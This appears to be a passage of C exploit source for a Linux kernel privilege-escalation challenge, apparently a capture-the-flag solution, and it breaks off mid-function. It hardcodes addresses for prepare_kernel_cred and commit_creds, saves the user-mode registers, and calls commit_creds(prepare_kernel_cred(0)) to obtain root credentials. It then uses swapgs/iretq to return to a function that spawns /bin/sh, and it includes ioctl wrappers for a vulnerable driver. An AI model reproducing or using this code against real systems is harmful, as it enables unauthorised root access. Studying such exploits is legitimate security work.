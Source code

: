 ```c
#include <signal.h>


#define SIZE 0x10


#define KERNCALL __attribute__((regparm(3))) 


void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0x81790;
void (*commit_creds)(void*) KERNCALL = (void*) 0x81410;

unsigned long user_cs, user_ss, user_rflags, user_sp;

void save_stat() {
    asm(
        "movq %%cs, %0;"
        "movq %%ss, %1;"
        "movq %%rsp, %2;"
        "pushfq;"
        "popq %3;"
        : "=r" (user_cs), "=r" (user_ss), "=r" (user_sp), "=r" (user_rflags) : : "memory");
}

void shell()
{
	system("/bin/sh");
	exit(0);
}

int get()
{
	commit_creds(prepare_kernel_cred(0));
	asm(
		"pushq %0;"
		"pushq %1;"
		"pushq %2;"
		"pushq %3;"
		"pushq $shell;"
		"pushq $0;"
		"swapgs;"
		"popq %%rbp;"
		"iretq;"
		::"m"(user_ss), "m"(user_sp), "m"(user_rflags), "m"(user_cs)
	);
}

struct node{
	void *buf;
	unsigned int len;
};

int fd;

int add()
{
	return ioctl(fd,0xD3C7F03,0);
}

int cho(int idx)
{
	int *idxp = &idx;
	return ioctl(fd,0xD3C7F04,idxp);
```